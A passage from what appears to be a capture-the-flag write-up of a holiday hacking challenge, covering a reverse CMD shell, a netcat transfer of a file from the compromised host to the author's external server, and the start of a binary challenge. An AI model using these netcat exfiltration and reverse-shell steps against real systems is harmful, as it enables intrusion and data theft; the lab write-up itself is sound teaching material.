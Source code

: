 Once the email is sent, a few moments later we can see that we get a successful Reverse CMD Shell.

<a href="https://jhalon.github.io/images/shh62.png"><img src="https://jhalon.github.io/images/shh62.png"></a>

At this point, we can navigate to the __C:\__ directory and we will spot Page 7 of the Great Book.

<a href="https://jhalon.github.io/images/shh63.png"><img src="https://jhalon.github.io/images/shh63.png"></a>

From here, we can simply use netcat to download the file to our AWS EC2 Instance.

```console
ubuntu@ip-172-31-24-12:~$ nc -l -p 1234 > GreatBookPage7.pdf
```

```console
C:\>nc -w 3 18.218.75.54 1234 < GreatBookPage7.pdf
```

Once completed, we can read Page 7 of the Great Book.

<a href="https://jhalon.github.io/images/shh64.png"><img src="https://jhalon.github.io/images/shh64.png"></a>

## Who's Behind This?

### North Pole and Beyond - We're Off To See The…

#### Terminal Challenge:

Upon accessing the CranPI Challenge, we are presented with the following:

```console
                 .--._.--.--.__.--.--.__.--.--.__.--.--._.--.
               _(_      _Y_      _Y_      _Y_      _Y_      _)_
              [___]    [___]    [___]    [___]    [___]    [___]
              /:' \    /:' \    /:' \    /:' \    /:' \    /:' \
             |::   |  |::   |  |::   |  |::   |  |::   |  |::   |
             \::.  /  \::.  /  \::.  /  \::.  /  \::.  /  \::.  /
         jgs  \::./    \::./    \::./    \::./    \::./    \::./
               '='      '='      '='      '='      '='      '='
Wunorse Openslae has a special challenge for you.
Run the given binary, make it return 42.
Use the partial source for hints, it is just a clue.
You will need to write your own code, but only a line or two.
total 88
-rwxr-xr-x 1 root root 84824 Dec 16 16:47 isit42
-rw-r--r-- 1 root root   654 Dec 15 19:59 isit42.c.un

elf@8b890dbcfb98:~$
```

Interesting, so it seems that we need to write some exploit code to make the __isit42__ binary return 42. Let's read the code to see what we have to work with.

```console
elf@8b890dbcfb98:~$ cat isit42.c.un 
#include <stdio.h>

// DATA CORRUPTION ERROR
// MUCH OF THIS CODE HAS BEEN LOST
// FORTUNATELY, YOU DON'T NEED IT FOR THIS CHALLENGE
// MAKE THE isit42 BINARY RETURN 42
// YOU'LL NEED TO WRITE A SEPERATE C SOURCE TO WIN EVERY TIME

int getrand() {
    srand((unsigned int)time(NULL)); 
    printf("Calling rand() to select a random number.\n");
    // The prototype for rand is: int rand(void);
    return rand() % 4096; // returns a pseudo-random integer between 0 and 4096
```